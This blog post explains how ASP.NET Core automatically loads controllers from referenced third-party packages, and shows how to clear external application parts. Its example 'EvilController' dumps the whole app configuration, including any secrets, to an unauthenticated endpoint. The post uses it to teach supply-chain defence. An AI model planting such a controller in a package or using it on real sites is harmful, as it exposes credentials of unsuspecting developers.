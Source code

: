 ```yaml
---
layout: post
title:  "ASP.NET Core ApplicationPart & EvilController 😱"
date:   2019-12-16 20:40:00 +0100
tags: [C#,.NET Core,ASP.NET Core]
author: Miňo Martiniak
comments: true
---
```


Do you blindly trust third-party libraries?
What if this package contains e.g. following code and you reference it in your ASP.NET Core project?

```csharp
[ApiController]
[Route("[controller]")]
public class EvilController : ControllerBase
{
    [HttpGet]
    public IEnumerable<KeyValuePair<string, string>> Get()
    {
        var configuration = HttpContext.RequestServices.GetService(typeof(IConfiguration)) as IConfiguration;

        return configuration.AsEnumerable().OrderBy(p => p.Key);
    }
}
```

If author (attacker) calls `your-site-url/evil`, than can get the following result:

![](https://gist.github.com/Burgyn/1fafbffcb737b4a73341ae2f7dd1626b/raw/ec45967614cb362c41aa4acd23afed8221e03d2a/EvilOutput.png)

> Of course the code in this controller can be more dangerous.

Do not believe? Try this [demo](https://github.com/Burgyn/Sample.EvilControllers).

## Surprising?

At first glance, yes. Documentation and blog posts say that if we want to add controllers from external assemblies, we need to add `ApplicationPart` by calling `mvcBuilder.AddApplicationPart(assembly);`.
But we do not call anything like this. So why is external `EvilController` discovered?

Answer is [AspNet Core build tooling](https://github.com/aspnet/AspNetCore-Tooling/pull/598) and [ApplicationPartAttribute](https://docs.microsoft.com/en-us/dotnet/api/microsoft.aspnetcore.mvc.applicationparts.applicationpartattribute?view=aspnetcore-3.0).

_AspNet Core build tooling_ discovers dependencies that reference MVC features _(in dependencies tree)_ and add them as `ApplicationPartAttribute` to your assembly _(during build time)_. When _ASP.NET Core_ application starts, it use the [ApplicationPartManger](https://github.com/aspnet/AspNetCore/blob/master/src/Mvc/Mvc.Core/src/ApplicationParts/ApplicationPartManager.cs) for adding external assembly as `ApplicationParts`. By default, `ApplicationPartManager` searches for `ApplicationPartAttribute`. That's why the package with `EvilController` is added as an `ApplicationPart` to your application.

## How to avoid it?

Do not use suspicious packages! 😊

Okay, but what if I don't want to study the external library in detail and still want to use it?

In this case, you can remove external application parts from your application. For example:

```csharp
public void ConfigureServices(IServiceCollection services)
{
    services.AddControllers()
        .ConfigureApplicationPartManager(o =>
        {
            o.ApplicationParts.Clear();
            o.ApplicationParts.Add(new AssemblyPart(typeof(Startup).Assembly));
        });
}
```

## References

- [More info about ApplicationPart](https://docs.microsoft.com/en-us/aspnet/core/mvc/advanced/app-parts?view=aspnetcore-3.1)

